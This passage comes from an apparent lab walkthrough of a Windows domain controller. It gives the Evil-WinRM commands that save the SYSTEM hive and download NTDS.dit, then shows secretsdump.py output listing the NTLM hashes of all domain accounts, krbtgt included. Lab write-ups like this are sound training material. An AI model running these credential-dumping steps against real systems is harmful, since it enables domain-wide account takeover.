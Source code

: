 - `/b` for source file path.

<img alt="abc"  alt="abc"  src="https://i.imgur.com/hXMg3Hr.png">

We extract the ntds.dit file sccessfully, now we need a decryption key to decrypt the ntds.dit file extract the password hashes form it. we will use `reg save` command for that
```powershell 
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\system system.bak
```

Now we have both **ntds.dit** file and the decryption key used to decrypt it. Let's download it to our local attacking machine using download functionality of evilwinrm.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> download ntds.dit
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> download system.bak
```

<img alt="abc"  alt="abc"  src="https://i.imgur.com/kxjBkQq.png">

#### Secretsdump.py 

**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read **NTDS.dit** directly from the disk or it can use the parser module to read NTDS.dit files from a copy.

```bash
$ ecretsdump.py -ntds ntds.dit -system system.bak -hashes lmhash:nthash LOCAL
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e34532cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:819314344a7420f304b924c18936f2a6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:d731082cb6c86fb2f3d64a9439e60dc7:::
```
